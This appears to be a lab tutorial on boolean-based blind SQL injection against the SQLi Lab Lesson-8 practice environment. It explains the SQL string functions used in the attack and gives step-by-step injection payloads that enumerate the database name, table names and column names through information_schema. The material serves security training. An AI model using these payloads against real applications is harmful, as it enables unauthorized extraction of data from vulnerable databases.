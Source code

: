 <h1 align="center">Blind (Boolean-Based) SQL Injection</h1>


- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response


# SQl function you need to know


## `length()`

- Return the length of the string, in bytes

#### Syntax

`LENGTH(string)`

- eg. `SELECT LENGTH("SQL Tutorial");`
- eg. `SELECT LENGTH(databse());`



## `substring()`

- The `SUBSTRING()` function extracts a substring from a string (starting at any position).

#### Syntax

`SUBSTRING(string, start, length)`

- eg. `SUBSTRING("sqltest",2,3;)`
- eg. `SUBSTRING(database(),1,1)`




## `ascii()`

- The ASCII() function returns the ASCII value for the specific character

#### Syntax

`ASCII(character)`

## `CHAR()`

-  `CHAR()` returns the character value of the given integer value according to the ASCII table

#### Syntax

`CHAR(ASCII number)`

<br>

<h1 align="center">Practical Lab Training </h1>


`In this session, We used SQLi Lab Lesson-8`

## 1. Finding parameter to inject 

`http://localhost:8000/chapter1/sqli_lab/Less-8/?id=2`

- Background Query

	- `SELECT * FROM table_name WHERE id='2'`

## 2. Identify the vulnearbility

- 1. test with quote `'` or `"`
- 2. Fix Error with `-- -` or `--+`
- 3. Testing with condition

	- TRUE  Condition ==> `AND 1=1` or `AND '1'='1` 
	- FALSE Condition ==> `AND 1=2` or `AND '1'='2` 

## 3. Emnumerate Data

### 1. Finding Length of Database

- Use `<` and `=` operater and find the length of Database name
- `AND (LENGTH(database())) < 10` 
- `AND (LENGTH(database())) = 8` 

### 2. Finding Database name using `ascii()` and `substring()` Function


- `AND (ascii(substring(database(),1,1))) < 100`

### 3. Finding Table name 

#### Step by step payload creation

- `AND (ascii(substring()))`

- `(select table_name from information_schema.tables where table_schema= database() limit 0,1);
`

#### Final payload (I already know user tables is fourth table and then use `limit 3,1`)

- `AND (ascii(substring((select table_name from information_schema.tables where table_schema= database() limit 3,1), 1,1 ))) < 100`

### 4. Finding Column name


`AND (ascii(substring((select column_name from information_schema.columns where table_name = 'users' and table_schema= database() limit 1,1), 1,1 ))) < 100`







